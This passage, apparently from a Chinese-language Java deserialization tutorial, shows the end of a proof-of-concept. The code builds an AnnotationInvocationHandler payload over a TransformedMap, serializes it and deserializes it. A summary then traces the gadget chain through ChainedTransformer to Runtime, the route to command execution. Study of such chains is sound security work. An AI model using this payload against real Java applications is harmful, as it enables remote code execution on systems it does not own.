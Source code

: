           Class<?> hander = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
          Constructor<?> handerConstructor = hander.getDeclaredConstructor(Class.class, Map.class);
          handerConstructor.setAccessible(true);
          Object o = handerConstructor.newInstance(Target.class, decorate);
      
          serialize(o);
          unserialize();
      }
      public static Object unserialize() throws Exception {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream("test.bin"));
          return ois.readObject();
      }
      
      public static void serialize(Object o) throws Exception{
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.bin"));
          oos.writeObject(o);
      }
      ```

32.   **总结**：

      ```nginx
      - 首先进行反序列化肯定从：
      	# 反序列的开始
       	-AnnotationInvocationHandler.readObject()
      	# map是被放在了TransformedMap类中，memberValue的值指向TransformedMap对象
      	-memberValue.setValue()
      	# 所以会调用重写的setValue()方法
      	-MapEntry.setValue()
      	# checkSetValue()这个方法是在子类实现的
      	-checkSetValue(value);
      	# 通过调用transformedMap的静态decorate()方法赋值，valueTransformer的值为：ChainedTransformer对象
      	-valueTransformer.transform(value);
      	# 循环调用ChainedTransformer的transform方法
      	-ChainedTransformer.transform()
      	# 拿到Runtime.class
      	-ConstantTransformer.transform()
      	-完成调用
      	
      
      ```

      



